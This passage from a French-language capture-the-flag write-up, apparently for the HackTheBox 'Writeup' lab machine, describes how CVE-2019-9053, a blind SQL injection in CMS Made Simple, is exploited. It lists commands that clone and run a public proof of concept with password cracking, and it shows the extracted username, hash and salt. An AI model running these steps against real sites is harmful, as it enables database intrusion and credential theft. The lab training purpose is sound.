 
## 💥 Phase 3 — Exploitation CVE-2019-9053 (SQL Injection)

### Analyse de la vulnérabilité

<div class="bg-red-50 dark:bg-red-900/20 p-6 rounded-xl border-l-4 border-red-500 my-4">
    <h4 class="text-xl font-bold text-red-600 dark:text-red-400 mb-3 flex items-center">
        <i class="fas fa-bug mr-2"></i>CVE-2019-9053 - SQL Injection
    </h4>
    <div class="space-y-2 text-gray-700 dark:text-gray-300">
        <div class="grid md:grid-cols-2 gap-4">
            <div>
                <span class="font-semibold text-red-600 dark:text-red-400">Versions affectées :</span> CMS Made Simple ≤ 2.2.10
            </div>
            <div>
                <span class="font-semibold text-red-600 dark:text-red-400">Type :</span> Blind Time-Based SQLi
            </div>
        </div>
        <div>
            <span class="font-semibold text-red-600 dark:text-red-400">CVSS Score :</span> 9.8 (Critical)
        </div>
        <div class="mt-4">
            <span class="font-semibold text-red-600 dark:text-red-400">Description :</span><br>
            Une faille SQLi aveugle basée sur le temps permet d'extraire des informations sensibles de la base de données via la manipulation d'un paramètre non filtré.
        </div>
    </div>
</div>

### Exploitation

Téléchargement du PoC :

```bash
git clone https://github.com/ELIZEUOPAIN/CVE-2019-9053-CMS-Made-Simple-2.2.10---SQL-Injection-Exploit
cd CVE-2019-9053-CMS-Made-Simple-2.2.10---SQL-Injection-Exploit
python cve.py -u http://10.10.10.138/writeup/ --crack -w best110.txt
```

<div class="bg-white dark:bg-dark-navbar p-5 rounded-xl shadow-lg my-4 border-l-4 border-green-500">
    <h4 class="text-xl font-bold mb-4 text-green-600 dark:text-green-400 flex items-center">
        <i class="fas fa-key mr-2"></i>Informations extraites
    </h4>
    <div class="bg-gray-100 dark:bg-gray-800 p-4 rounded font-mono text-sm space-y-1">
        <div class="text-gray-700 dark:text-gray-300">
            <span class="text-blue-600 dark:text-blue-400">Username:</span> <span class="text-green-600 dark:text-green-400">jkr</span>
        </div>
        <div class="text-gray-700 dark:text-gray-300">
            <span class="text-blue-600 dark:text-blue-400">Email:</span> <span class="text-green-600 dark:text-green-400">jkr@writeup.htb</span>
        </div>
        <div class="text-gray-700 dark:text-gray-300">
            <span class="text-blue-600 dark:text-blue-400">Hash:</span> <span class="text-orange-600 dark:text-orange-400">62def4866937f08cc13bab43bb14e6f7</span>
        </div>
        <div class="text-gray-700 dark:text-gray-300">
            <span class="text-blue-600 dark:text-blue-400">Salt:</span> <span class="text-purple-600 dark:text-purple-400">5a599ef579066807</span>
        </div>
    </div>
</div>